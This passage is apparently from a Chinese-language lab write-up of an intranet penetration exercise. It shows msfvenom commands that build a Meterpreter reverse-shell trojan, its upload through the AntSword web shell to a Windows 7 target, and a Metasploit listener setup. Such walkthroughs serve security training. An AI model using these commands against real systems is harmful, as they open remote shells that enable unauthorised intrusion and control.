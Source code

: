 ![image-20220309152017074](https://gitee.com/xxb667/img/raw/master/img/image-20220309152017074.png)

![image-20220309151316982](https://gitee.com/xxb667/img/raw/master/img/image-20220309151316982.png)

得到两个网卡信息：

```
网卡1：192.168.1.21
网卡2：10.0.20.98
非域环境
```

### 3.2 msfvenom 生成木马 获取shell

同时可以联动CS

```shell
msfvenom  -p  windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4444 -f exe -o /home/xxb1/xb.exe
```

```
msfvenom  -p  windows/x64/meterpreter/reverse_tcp LHOST=192.168.81.131 LPORT=4444 -f exe -o /home/xxb1/xb.exe
```

![image-20220309153034943](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20220309153034943.png)

生成的木马用中国蚁剑上传到Windows 7 目标机器

![image-20220309153225371](https://gitee.com/xxb667/img/raw/master/img/image-20220309153225371.png)

MSF开启监听  然后用蚁剑运行xb.exe

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost eth0
run
```

![image-20220309153949947](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20220309153949947.png)

蚁剑的运行

![](https://gitee.com/xxb667/img/raw/master/img/image-20220309154256689.png)

kali进行查看

![image-20220309154256689](https://gitee.com/xxb667/img/raw/master/img/image-20220309154256689.png)

通达OA 是系统权限，所以省去提权

![image-20220309153540909](https://gitee.com/xxb667/img/raw/master/img/image-20220309153540909.png)
